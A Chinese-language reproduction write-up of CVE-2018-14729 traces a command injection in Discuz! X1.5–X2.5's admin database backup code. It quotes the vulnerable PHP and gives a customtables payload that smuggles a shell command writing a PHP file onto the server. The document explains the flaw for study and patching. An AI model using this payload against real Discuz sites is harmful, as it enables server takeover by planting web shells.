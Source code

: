 # CVE-2018-14729 Discuz!X 1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

### 一、漏洞简介

### 二、漏洞影响

Discuz! 1.5-2.5

### 三、复现过程

漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

source/admincp/admincp_db.php

第296行：


```php
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```

在shell_exec()函数中可控点在`$tablesstr`，向上看到第281行：


```php
$tablesstr = '';
foreach($tables as $table) {
    $tablesstr .= '"'.$table.'" ';
}
```

跟一下`$table`的获取流程，在上面的第143行：


```php
if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
{
    $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
} 
elseif($_GET['type'] == 'custom') 
{
    $tables = array();
    if(empty($_GET['setup'])) 
    {
        $tables = C::t('common_setting')->fetch('custombackup', true);
    } 
    else 
    {
        C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
        $tables = & $_GET['customtables'];
    }
    if( !is_array($tables) || empty($tables)) 
    {
        cpmsg('database_export_custom_invalid', '', 'error');
    }
}
```

可以看到：


```php
C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
$tables = & $_GET['customtables'];
```

首先会从`$_GET`的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![](images/15889940966002.jpg)


之后再将该值赋给`$tables`。

至此可以看到漏洞产生的原因是由于shell_exec()中的$tablesstr可控，导致代码注入。

**漏洞复现**

首先抓个包

![](images/15889941088871.jpg)


这样可以抓到符合我们条件的请求包。

![](images/15889941153555.jpg)


接下来只需要将customtables的内容更改一下就可以造成命令执行了：


```
customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #
```

![](images/15889941299392.jpg)


![](images/15889941334984.jpg)


效果为：

![](images/15889941397878.jpg)


参考链接

https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md

https://www.anquanke.com/post/id/158270